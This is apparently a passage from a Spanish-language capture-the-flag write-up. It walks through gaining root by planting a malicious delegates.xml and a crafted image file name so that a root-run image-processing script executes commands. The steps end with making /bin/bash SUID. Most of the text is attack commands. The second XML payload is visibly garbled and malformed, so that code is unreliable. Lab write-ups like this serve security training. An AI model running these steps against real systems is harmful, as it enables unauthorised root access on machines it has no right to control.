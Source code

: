 verificamos si donde el script busca la imagen es un directorio en el cual podemos escribir:
```bash
ls -la /opt/app/static/assets/images/
```
```bash
drwxrwx--- 2 root      developer   4096 Feb  3 17:13  .
drwxr-x--- 3 root      developer   4096 Feb  7 10:37  ..
```

lo primero es crear el archivo que vemos en el POC:
```bash
cat << EOF > ./delegates.xml
<delegatemap><delegate xmlns="" decode="XML" command="id"/></delegatemap>
EOF
```

luego vamos a crear una imagen con un nombre malicioso dado que no hay validación:
```bash
touch 'delegates.xml 3vil.jpg'
```

por alguna razon el script no funciona si el metadata.log existe asi que el comando que ejecuto en el directorio /opt/scripts es:
```bash
rm /opt/app/static/assets/images/metadata.log && ./identify_images.sh
```

al abrir el .log:
<img src="/images/writeup-titanic/Pasted image 20250501193957.png">
se están ejecutando comandos de root gracias al archivo xml

así que, para ejecutar un comando mas completo use:
```xml
cat << EOF > ./delegates.xml
<delegatemap><delegate xmlns="" decode="XML" command=<name>chmod</name>
    <permissions>u+s</permissions>
    <target>/bin/bash</target></delegatemap>
EOF
```
para así convertir la bash en suid

luego ejecute
```bash
rm /opt/app/static/assets/images/metadata.log && ./identify_images.sh
```

y finalmente:

<img src="/images/writeup-titanic/Pasted image 20250501201748.png">
